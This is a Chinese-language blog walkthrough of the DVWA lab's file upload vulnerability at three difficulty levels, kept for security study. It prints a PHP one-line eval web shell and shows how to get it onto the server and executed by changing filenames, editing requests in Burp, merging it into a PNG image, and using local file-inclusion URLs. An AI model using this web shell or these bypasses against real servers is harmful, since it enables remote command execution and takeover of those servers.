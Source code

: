 ```yaml
---
title:      "File Upload ---dvwa"
description: "主要用来记录dvwa靶场 中 文件上传 破解方式"
author:     "伍帆"
image: "/img/home-bg.jpg"
date: 2022-06-27
published: true
tags:
    - 靶场
    - dvwa
URL: "/2022/6/File Upload/"
categories: [ "网安" ]
---
```



## 文件上传漏洞简介
>File Upload，即文件上传漏洞，通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的webshell权限，因此文件上传漏洞带来的危害常常是毁灭性的

## LOW 级别破解
>查看源代码
![](/img/FileUpload/low.png)
> 可以看到，服务器对上传文件的类型、内容没有做任何的检查、过滤，存在明显的文件上传漏洞，生成上传路径后，服务器会检查是否上传成功并返回相应提示信息。

文件上传漏洞的利用是有限制条件的，首先`当然是要能够成功上传木马文件`，其次`上传文件必须能够被执行`，最后就是`上传文件的路径必须可知`。不幸的是，这里三个条件全都满足。

#### 1.编写木马文件
```php
<?php
@eval($_REQUEST['cmd']);phpinfo();
?>
```
![](/img/FileUpload/1-1.png)

#### 2.上传木马文件
![](/img/FileUpload/1-2.png)
上传成功，并且返回了上传路径

#### 3.权限获得
打开中国菜刀，添加上一步获得到的上传路径
![](/img/FileUpload/1-3.png)
然后菜刀就会通过向服务器发送包含cmd参数的post请求，在服务器上执行任意命令，获取webshell权限。
![](/img/FileUpload/1-4.png)
可以下载、修改服务器的所有文件。
可以打开终端
![](/img/FileUpload/1-5.png)

## Medium别破解
>查看源代码
![](/img/FileUpload/medium.png)
> Medium级别的代码对上传文件的类型、大小做了限制，要求文件类型必须是jpeg或者png，大小不能超过100000B（约为97.6KB）

### 方法1：组合拳（文件包含+文件上传）
因为采用的是一句话木马，所以文件大小不会有问题，至于文件类型的检查，尝试修改文件名为cmd.png。
#### 1.将文件构造成png后缀形式
![](/img/FileUpload/2-1.png)

#### 2. 上传png形式的图片
![](/img/FileUpload/2-2.png)


#### 3.尝试使用中国菜刀进行权限获得
![](/img/FileUpload/2-3.png)
虽然成功上传了文件，但是并不能成功获取webshell权限，在菜刀上无论进行什么操作都会返回如下信息
![](/img/FileUpload/2-4.png)
中国菜刀的原理是向上传文件发送包含cmd参数的post请求，通过控制apple参数来执行不同的命令，而这里服务器将木马文件解析成了图片文件，因此向其发送post请求时，服务器只会返回这个“图片”文件，并不会执行相应命令。

那么如何让服务器将其解析为php文件呢？我们想到文件包含漏洞。这里可以借助Medium级别的文件包含漏洞来获取webshell权限，打开中国菜刀，右键添加，在地址栏中输入

`http://127.0.0.1/vulnerabilities/fi/?page=hthttp://tp://127.0.0.1/hackable/uploads/cmd.png`

进而获得webshell 的权限

### 方法2：抓包修改文件类型

#### 1.通过burpSuite进行抓包
上传cmd.png文件，抓包。
![](/img/FileUpload/2-6.png)

#### 2.更改filename 
可以看到文件类型为image/png，尝试修改filename为`cmd.php`。
![](/img/FileUpload/2-7.png)

#### 3.尝试使用中国菜刀进行权限获得
![](/img/FileUpload/2-8.png)
![](/img/FileUpload/2-9.png)


## High 级别破解
>查看源代码
>![](/img/FileUpload/high.png)
>High级别的代码读取文件名中最后一个”.”后的字符串，期望通过文件名来限制文件类型，因此要求上传文件名形式必须是”*.jpg”、”*.jpeg” 、”*.png”之一。同时，getimagesize函数更是限制了上传文件的文件头必须为图像类型

#### 1.图片和文件合并
利用copy将一句话木马文件cmd.php与图片文件1.png合并
![](/img/FileUpload/3-1.png)

使用 `copy 1.png/b+cmd.php/a hack.png` 命令 生成hack.png 图片
![](/img/FileUpload/3-2.png)
![](/img/FileUpload/3-3.png)

打开hack.png可以看到，一句话木马藏到了最后
![](/img/FileUpload/3-4.png)

#### 2.上传文件
![](/img/FileUpload/3-5.png)
成功上传文件

#### 3.通过文件包含去进行访问
点击文件包含页面 然后替换url为：
`http://127.0.0.1/vulnerabilities/fi/?page=file:///D:\phpstudy_pro\WWW\DVWA\hackable\uploads\hack.png`
![](/img/FileUpload/3-7.png)

![](/img/FileUpload/3-6.png)